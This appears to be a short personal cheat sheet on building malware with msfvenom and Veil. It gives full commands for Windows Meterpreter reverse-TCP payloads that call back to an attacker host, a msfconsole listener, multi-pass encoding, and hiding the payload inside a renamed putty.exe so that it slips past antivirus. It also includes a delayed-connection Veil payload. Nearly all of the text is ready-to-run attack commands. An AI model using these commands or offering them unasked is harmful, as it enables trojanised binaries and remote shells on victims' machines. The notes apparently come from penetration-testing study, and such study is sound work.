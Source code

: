 ## Msfvenom

	$ cd Desktop

	$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.116.130 LPORT=4444 -f exe -o myshell.exe

	* copy the payload to the target machine

	$ msfconsole

	$ use exploit/multi/handler - setting up a listener

	$ set payload windows/x64/meterpreter/reverse_tcp - must match with the payload in the generated exploit

	$ set LHOST 172.16.116.130 

	$ set LPORT 4444 - it defaults to 4444 but just in case

	$ run - the listener is set up

	> run myshell.exe - will give a shell


## Advanced Msfvenom

	$ msfvenom -h - for help

	$ msfvenom --list formats - to see all of the available formats for malware creation

	* upload to virustotal.com to compare created malware signatures

	$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.116.130 LPORT=4444 -a x64 -e x64/zutto_dekiru -i 3 --platform windows -n 500 -f exe -o shell.exe - -a select architecture ; -e select encoding method; -i number of iterations; -n length of NOPsled; -f select type of format; -o input output file

	$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.116.130 LPORT=4444 -x putty.exe -f exe -o Putty.exe - will mask the payload under a specific template ; must be in the same directory of the output file ; can bypass some antiviruses

	* a .py payload file will not be detectable by antiviruses, but can be difficult to run on target


## Veil

	$ apt install veil

	$ veil - similar to msfvenom ; Evasion and Ordnance

	$ use 1 - to select Evasion

	$ list - to see payloads (41)

	$ use 22 - reverse_tcp.py

	$ set SLEEP 20 - malware will sleep for 20s after execution and after will establish a connection

	$ set LHOST 172.16.116.130
